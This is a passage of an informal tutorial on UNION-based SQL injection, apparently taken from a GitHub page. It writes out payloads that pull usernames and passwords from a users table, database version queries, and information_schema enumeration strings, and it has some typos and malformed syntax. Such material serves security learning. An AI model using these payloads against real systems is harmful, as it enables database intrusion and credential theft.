 'UNION SELECT 'password',NULL,NULL-- 

we use this hit and trial till we get the desired results...
and suppose there is a table named 'users' ( SQL tables in a databse can be found out using certain methods which will be discussed later on)

so the query changes to 

'UNION SELECT 'password',NULL,NULL FROM users--
 We could use this to get more data from the table...but to things more clear and readable we use the '||' operator(concatenate),which enables an attacker to display data from two different column in a single column

 Ex 'UNION SELECT username||'='||password FROM users --

 which will display result like

 admin=admin
 john=hello123
 carlos=rockyou12!



#EXAMINING THE DATABASES

For attackers it's necessary to have the information of the system they are attacking...for the SQLI that basically sums to the version of the database and the tables in the database.

Primarily 3 types of databases are used.

DATABASE                          BASIC SYNTAX 
--------                         --------------
MySQL                           Select @@version
Oracle                          Select * from v$version
PostgreSQL 	                    Select version()

The steps are same to find the version,find the number of columns,find the datatype in the column,find the version

++ Enumerating the databases ++

Before trying to use specific SQLI for the data,we need to find certain the tables in a particular database.

all other databaes

The first step to finding information is finding the number of number of columns,and data type and then finding the information of the table.

 information_schema.tables  table_name

 General Syntax: 'Union Select table_name,null from information_schema.tables-- (considering there are two columns)

 infromation_schema.columns  column_name

 General Syntax: 'Union select column_name,null from information_schema.cloumns where table_name='XYZ'--

 this shows the information of all the columns present in the particular table,we could then select the columns that we want to show
